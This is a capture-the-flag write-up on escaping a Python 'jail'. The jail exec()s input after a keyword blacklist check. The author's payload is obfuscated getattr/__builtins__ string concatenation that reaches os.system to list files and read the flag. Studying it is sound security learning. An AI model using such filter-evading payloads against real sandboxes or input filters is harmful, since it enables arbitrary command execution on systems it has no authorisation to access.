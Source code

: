 ## I Want To Break Free 2

We have a python file,

[jail.py](CTF_FILES/jail.py)
```py
#!/usr/bin/env python3

def server():
    message = """
    You are in a maximum security prison. Can you escape?
"""
    print(message)
    while True:
        try:
            data = input("> ").strip("\n")
            safe = True
            for char in data:
                if not (ord(char)>=33 and ord(char)<=126):
                    safe = False
            with open("blacklist.txt","r") as f:
                badwords = f.read().strip("\n").split(" ")
            for badword in badwords:
                if badword in data:
                    safe = False
            if safe:
                print(exec(data))
            else:
                print("You used a bad word!")
        except Exception as e:
            print("Something went wrong.")
            print(e)
            exit()

if __name__ == "__main__":
    server()
```

and a blacklist file
[blacklist.txt](CTF_FILES/blacklist.txt)
```
cat grep nano import eval subprocess input sys execfile open exec for dir file input write while echo print int os read
```

### In the first if check
```py
safe = True
for char in data:
    if not (ord(char)>=33 and ord(char)<=126):
        safe = False
.
.
.
if safe:
    ...
else:
    print("You used a bad word!")
```
the code checks if any word is not `a printable Ascii word` (it's because, ord() function gives a number that is represented in Ascii table, and the numbers between 33 and 126 are printable strings), if then, safe becomes False and we get "You used a bad word!".

### In the second if check
```py
with open("blacklist.txt","r") as f:
    badwords = f.read().strip("\n").split(" ")
for badword in badwords:
    if badword in data:
        safe = False
```

Firstly, the code reads `badwords` from `blacklist.txt`, and splits it into a list. Afterward, it checks `if any badword is in the data` which we'll give as the input, if then, safe becomes False and we get "You used a bad word!"

### So,
We need to break out of this blacklist check,

The payload I used:
```py
getattr(getattr(globals()["__builtin"+"s__"],'__impor'+'t__')('o'+'s'),'s'+'y'+'s'+'t'+'e'+'m')('l'+'s')
# after that
getattr(getattr(globals()["__builtin"+"s__"],'__impor'+'t__')('o'+'s'),'s'+'y'+'s'+'t'+'e'+'m')('c'+'a'+'t'+chr(32)+'b49ddf352c9d2cdf7b9cf26dfeff15ad5336944e772b9d0190095be946fe8af9.txt')
```

> __\_\_builtins\_\_ :__ The builtins namespace associated with the execution of a code block is actually found by looking up the name __\_\_builtins\_\___ in its global namespace; this should be a dictionary or a module (in the latter case the module’s dictionary is used). By default, when in the __main__ module, __\_\_builtins\_\___ is the built-in module builtins; when in any other module, __\_\_builtins\_\___ is an alias for the dictionary of the builtins module itself.

> __globals() :__
Return a dictionary representing the current global symbol table. This is always the dictionary of the current module (inside a function or method, this is the module where it is defined, not the module from which it is called).


> __getattr(object, name[, default]) :__
Return the value of the named attribute of object. name must be a string. If the string is the name of one of the object’s attributes, the result is the value of that attribute. For example, getattr(x, 'foobar') is equivalent to x.foobar. If the named attribute does not exist, default is returned if provided, otherwise AttributeError is raised.

### References:
- https://docs.python.org/3/reference/executionmodel.html#builtins-and-restricted-execution

- https://docs.python.org/3/library/functions.html#globals

- https://docs.python.org/3/library/functions.html#getattr